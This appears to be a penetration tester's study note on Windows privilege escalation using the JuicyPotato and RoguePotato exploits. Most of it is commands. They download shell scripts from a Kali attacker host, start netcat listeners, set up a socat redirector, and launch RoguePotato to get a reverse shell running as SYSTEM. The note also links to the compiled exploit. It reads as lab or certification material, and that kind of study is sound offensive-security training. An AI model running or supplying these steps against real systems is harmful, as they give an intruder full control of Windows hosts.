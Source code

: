 ```command prompt - windows
Invoke-WebRequest -Uri 'http://$KALI/shell-2.ps1' -OutFile shell-2.ps1
```

---

```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/shell.bat' -OutFile shell.bat
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 444
```

```command prompt - windows
JuicyPotato.exe -t * -p shell.bat -l 4444
```

#### Rogue Potato
Latest of the “Potato” exploits.

GitHub: [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

Blog: [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)

Compiled Exploit:

[https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

1. Copy PSExec64.exe and the RoguePotato.exe exploit executable over to Windows.

2. Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows ($TARGET is the Windows IP):

```bash - windows
sudo socat tcp-listen:135,reuseaddr,fork tcp:$TARGET:9999
```

3. Start a listener on Kali.

![[rlwrap]]

4. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

[[1._Reverse Shells (LIN)#MSFVenom]]

```command prompt - windows
C:\PrivEsc\PSExec64.exe /accepteula -i -u "ntauthority\local service" C:\PrivEsc\reverse.exe
```

5. Start another listener on Kali.

![[rlwrap]]

6. Now run the RoguePotato exploit to trigger a reverse shell running with SYSTEM privileges ($KALI is the Kali IP):

```command prompt - windows
C:\PrivEsc\RoguePotato.exe -r $KALI –l 9999 -e "C:\PrivEsc\reverse.exe"
```
